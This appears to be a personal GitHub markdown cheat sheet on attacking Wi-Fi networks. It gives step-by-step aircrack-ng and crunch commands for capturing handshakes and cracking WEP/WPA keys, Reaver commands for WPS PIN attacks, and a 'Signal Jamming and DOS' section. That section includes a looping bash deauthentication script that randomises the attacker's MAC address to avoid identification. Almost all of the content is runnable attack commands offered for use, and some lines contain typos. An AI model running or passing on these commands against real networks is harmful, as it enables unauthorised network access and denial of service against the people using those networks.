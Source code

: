 # Wireless Vulnerablities
## overview of tools 
### aircrack-ng  
from this https://ubuntuforums.org/showthread.php?t=528276  
##### change wifi card from promiscuous to monitor mode.  
1. `ifconfig`  
2. `ifconfig wlan0 down`  
3. `iwconfig wlan0 mode monitor|manage`  
4. `ifconfig wlan0 up`  
##### check airmon-ng is good to go
1. `airmon-ng check wlan0`  
2. kill processes that are running.  `kill NetworkManager`  
##### run airodump-ng
1. `airodump-ng wlan0`  
2. `airodump-ng --channel 1 --bssid 12:34:45:45:67:80 --write dump.pca wlan0`  
##### seperate terminal  
3. `sudo aireplay-ng -1 0 -e <target_essid> -a 00:09:5B:D7:43:A8 -h MY:MA:CA:DD:RE:SS <interface>` -1... '0' deauthenticates all clients. -e... ESSID of target access point. -a... MAC address of target access point. -h... MAC address of your choice. its either no mac filtering or mac filtering  
Mac filtering is turned off  
```
18:22:32 Sending Authentication Request
18:22:32 Authentication successful
18:22:32 Sending Association Request
18:22:32 Association successful :-)
```
##### No MAC filtering  
--- `sudo aireplay-ng -3 -b 00:09:5B:D7:43:A8 -h MY:MA:CA:DD:RE:SS <interface>`  -3... Standard ARP-request replay. -b... MAC address of target access point. -h... MAC address of your choice.  
##### MAC filtering 
-- `sudo aireplay-ng -0 5 -a 00:09:5B:D7:43:A8 -c 00:00:00:00:00:00 <interface>`  -0... Number of deauthentication attempts. -a... MAC address of target access point.  -c... Client MAC address.  
-- `sudo aireplay-ng -3 -b 00:09:5B:D7:43:A8 -h 00:00:00:00:00:00 <interface>`  -3... Standard ARP-request replay. -b... MAC address of target access point. -h... Client MAC address.  
##### Decryption with "aircrack-ng" & "aircrack-ptw"  
1. `sudo aircrack-ng <file_name>.cap`  
2. `./aircrack-ptw <file_name>.cap`  
`crunch 10 10 -t %%%%%%%123 | aircrack-ng -w - SCAN-test.cap -e <essid>`   
[Aircrack-ng](http://aircrack-ng.org/doku.php?id=aircrack-ng)
https://www.aircrack-ng.org/doku.php?id=cracking_wpa  

```
Aircrack-NG:
64-bit key: ~250,000 packets
128-bit key: ~1,500,000 packets

Aircrack-PTW:
64-bit key: ~20,000 packets [estimate]
128-bit key: ~85,000 packets
```

#### from video  
##### change wifi card from promiscuous to monitor mode.  
1. `ifconfig`  
2. `ifconfig wlan0 down`  
3. `iwconfig wlan0 mode monitor`  
4. `ifconfig wlan0 up`
##### check airmon-ng is good to go
5. `airmon-ng check wlan0`  
6. kill processes that are running.  `kill NetworkManager`  
##### run airodump-ng
7. `airodump-ng wlan0`  
8. `airodump-ng --channel 1 --bssid 12:34:45:45:67:80 --write SCAN_test wlan0`  
*NEW TERMINAL*  this authenticates all clients on network - 0 means just goes on forever.  let it run for a while  
9. `aireplay-ng -0 0 -a 12:34:45:45:56:88 wlan0`  
10. ctr ^ C to stop  
11. one first terminal check to see if wpa handshake is captured.  if so stop capture.  
*FRESH TERMINAL*  
12. `crunch 10 10 -t @@@@@@@@@@ | aircrack-ng -w - SCAN_test-01.cap -e <essid>`  
##### try using a list cd crunch-3.6 find charset.lst 
13. `crunch 10 10 -t @@@@@@@@@@ -f charset.lst mixalpha-numeric-space`  
14. `aircrack-ng -w /root/nmap.lst SCAN_test-01.cap`  

# REAVER v1.5.2 WiFi Protected Setup Attack Tool
`reaver --help`  
1. `ifconfig`  
2. `ifconfig wlan0 down`  
3. `iwconfig wlan0 mode monitor`  
4. `ifconfig wlan0 up`  
##### check airmon-ng is good to go
5. `airmon-ng check wlan0`  
6. kill processes that are running.  `kill NetworkManager` 
##### use wash to check if wps is locked
7. `wash -i wlan0mon`  or `wash -i wlan0mon --ignore-fcs`  
8. check PWR is above -60  
9. `airodump-ng wlan0mon`  
10. `reaver -b mac-address-of-router -i wlan0mon -c 1 -vv` 
##### you may need to self associate using aireplay-ng 
11. `aireplay-ng -1 0 wlan0mon -a <bssid>`  
12 . `reaver -i wlan0mon -b <bssid> -c 1 -A -vv`  
13. `reaver -i wlanmon -b <bssid> -c 1 -r 2:60`  

# Signal Jamming and DOS 
1. put network card into monitor mode
2. `airmon-ng check wlan0`
*note* when doing for real change mac address of wireless interface  
`ifconfig wlan0 down`
`macchanger -A wlan0`  
`ifconfig wlan0 up`
3. `airodump-ng wlan0` 
4. `aireplay-ng -0 0 -a <bssid> wlan0`  or and (-c <clients's mac>) as to not knock everyone off network.  
if you have to configure channel  
5. `iwconfig wlan0 channel <num>`  

#### write jam script
```
#!/bin/bash 
while true
do 
    aireplay-ng -0 5 -a <bssid> wlan0
    ifconfig wlan0 down
    macchanger -r wlan0 | grep "New MAC"
    iwconfig wlan0 mode monitor 
    ifconfig wlan0 up
    iwcofig wlan0 | grep Mode
    sleep 3
    echo "Waiting!!!!!"
done
```






